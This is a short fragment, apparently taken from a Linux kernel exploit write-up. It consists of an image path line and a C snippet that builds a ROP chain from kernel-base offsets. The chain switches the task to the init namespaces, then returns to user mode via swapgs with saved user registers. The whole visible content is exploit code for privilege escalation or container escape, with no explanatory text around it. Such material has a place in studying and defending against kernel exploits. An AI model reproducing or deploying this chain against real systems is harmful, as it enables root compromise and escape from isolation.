 ```c
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + INIT_NSPROXY;
    data[i++] = kbase + SWITCH_TASK_NAMESPACES;

    data[i++] = kbase + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE;
    data[i++] = 0;
    data[i++] = 0;
    data[i++] = _user_rip;
    data[i++] = _user_cs;
    data[i++] = _user_rflags;
    data[i++] = _user_sp;
    data[i++] = _user_ss;
}
```
